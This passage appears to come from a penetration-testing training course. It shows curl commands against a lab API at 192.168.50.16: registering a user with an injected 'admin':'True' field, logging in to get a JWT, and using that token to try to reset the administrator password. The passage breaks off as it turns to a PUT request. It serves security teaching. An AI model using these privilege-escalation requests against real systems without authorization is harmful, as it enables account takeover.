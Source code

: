 > Listing 16 - Attempting new User Registration

The API replied with a "fail" message stating that we should also include an email address. We could take this opportunity to determine if there's any administrative key we can abuse. Let's add the _admin_ key, followed by a _True_ value.

```
kali@kali:~$curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
```

> Listing 17 - Attempting to register a new user as admin

Since we received no error, it seems we were able to successfully register a new user as an admin, which should not be permitted by design. Next, let's try to log in with the credentials we just created by invoking the **login** API we discovered earlier.

```
kali@kali:~$curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
```

> Listing 18 - Logging in as an admin user

We were able to correctly sign in and retrieve a [_JSON Web Token_](https://en.wikipedia.org/wiki/JSON_Web_Token) (JWT) authentication token. To obtain tangible proof that we are an administrative user, we should use this token to change the admin user password.

We can attempt this by forging a POST request that targets the **password** API.

```
kali@kali:~$ curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

{
  "detail": "The method is not allowed for the requested URL.",
  "status": 405,
  "title": "Method Not Allowed",
  "type": "about:blank"
}
```

> Listing 19 - Attempting to Change the Administrator Password via a POST request

We passed the JWT key inside the _Authorization_ header along with the new password.

Unfortunately, the application indicates that the HTTP method is unsupported, so we’ll try an alternative. The PUT method (along with PATCH) is often used to replace a value as opposed to creating one via a POST request, so let's try to explicitly define it next:
